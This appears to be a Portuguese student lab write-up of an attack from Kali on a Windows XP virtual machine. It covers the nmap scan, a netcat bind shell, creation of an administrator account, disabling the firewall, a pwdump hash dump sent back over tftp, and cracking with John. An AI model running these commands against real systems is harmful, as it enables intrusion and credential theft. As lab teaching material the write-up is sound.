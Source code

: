 # Simulando um ataque com Kali no Linux

Com as máquinas devidamente criadas e configuradas.
Iniciou-se testes para verificar conectividade.

Após configurar rede NatNetwork para ambas as máquinas
Ping entre as máquinas se estabeleceu bem.

Porém houve alteração do IP do Windowns XP para IP fixo (10.0.2.21).


```
Ip –br a // permite ver as interfaces com os ip atribuídos
```



Executando:
```
Sudo Netdiscover 
```

De início não consta nada, porém ao realizar pings com o XP no Kali, ele identifica o IP do XP
 

Como constou no netdiscover o IP do XP utilizou-se:
```
 Nmap -A 10.10.2.0/24
```

Ao executar nmap -A além das portas, também mostrou o sistema operacional, o horário do sistema, level de autenticação, e já identificou name computer e BIOS, assim como Workgroup.

Já a sintaxe nmap -sS nos forneceu apenas as informações das portas, inclusive a porta 1010/tcp que abrimos (nc -L -p 1010 -e cmd.exe) no XP para explorá-la.
 

Executando nc 10.0.2.21 1010, no Kali. Já temos acesso ao XP.
Com acesso, executaremos ``` C:\ qwinsta ``` - Foi verificado utilizador logado, no meu caso Admin1.
Rodamos ```C:\ net user Admin9 /add ``` para criar um usuário, Admin9, e logo depois deletado com, ```C:\ net user Admin9 /delete```, e depois criado um Admin11 como mostra imagem a seguir.
 

Ainda utilizando o net user, foi criado um usuário “pirata” e depois adicionado senha ao seu perfil.
Com os comandos ```net user pirata /add``` e depois ```net user pirata 111```
 
Caso necessário podemos remover a senha com o comando ```net user pirata *```
Ao utilizar ```C:\ net localgroup administradores pirata /add``` 


















C:\ shutdown –s –t 55 ➔ agenda um encerramento ao fim de 55 segundos 
C:\shutdown –a ➔ para o encerramento agendado 
C:\ipconfig /all ➔ ver as configurações IP 
C:\route print ➔ ver rotas/ tabela de roteamento 
 
C:\arp –a ➔ permite ver a informação a cerca do gateway 
C:\netsh firewall show state ➔ ver o estado da firewall 
C:\netsh firewall show config ➔ verificar as configurações da firewall 
C:\systeminfo ➔ permite ver à quanto tempo a maquina não é desligada 
C:\netsh firewall set opmode disable ➔colocar a firewall como desativada 
C:\netsh firewall set opmode enable ➔ colocar a firewall como ativada
 


Capturando a password dos users e fazendo crap das password do user.
Através do aplicativo “pwdump”, descarregamos para o kali, este vai ser usado para ser enviado para a máquina xp, para obtermos as senhas. 
Foi criado no kali uma pasta pwdump para descarregar o conteúdo, utilizamos unzip pwdump7.zip para extrair os arquivos dentro da pasta
vamos fazer uso do tftp para isso é necessário proceder à intalação dos serviços de tftp.
(tftp é um recurso para envio de arquivos entre as máquinas)
Executado sudo apt-get install tftpd-hpa tftp-server -y ou sudo apt-get install tftpd-hpa e 
sudo apt-get install tftpd-server –y
 
Fazer a configuração do serviço tftp com o comando: sudo nano /etc/default/tftpd-hpa–l
A linha que tem a linha que tem TFTP_OPTIONS=" --secure” tem de ser alterada para
TFTP_OPTIONS="--secure --create"



Copiar os ficheiros do pwdump no KALI para:  /srv/tftp
sudo cp pwdump7.exe /srv/tftp
sudo cp libeay32.dll /srv/tftp

Na máquina XP criar uma pasta na raiz com nome ataque 
Agora através do KALI executar os comandos no XP dentro da pasta de ataque 
tftp -i 10.0.2.15 get libeay32.dll
tftp -i 10.0.2.15 get PwDump7.exe (case sensitive)

Com isso, conseguimos transferir os dois arquivos do KALI para o XP e agora podemos executar o PwDump7 
 

Executando PwDump7.exe > contas.txt 
O arquivo contas.txt fica com o conteúdo das passwords encriptadas. 
Agora transferimos o arquivo contas.txt para o KALI, com o comando: Tftp -i 10.0.2.15 put contas.txt
Obtivemos um erro de permissão, permission denied, no KALI, para resolver, utilizamos: /srv , depois, ls -i e então, sudo chmod -R 777 tftp 
Ao tentar novamente, já obtivemos sucesso na transferência do arquivo. 
  
Dentro da pasta /srv/tftp já podemos abrir o arquivo e ver o arquivo com password encriptado
Utilizamos sudo john contas.txt e já conseguimos ver os longin e passwords cadastrados no w XP.
 
E utilizando sudo john conta.txt --wordlist=/diretorioondeandaofile_rockyou.txt
 



Login KALI: sks	 	/	senha: kali123
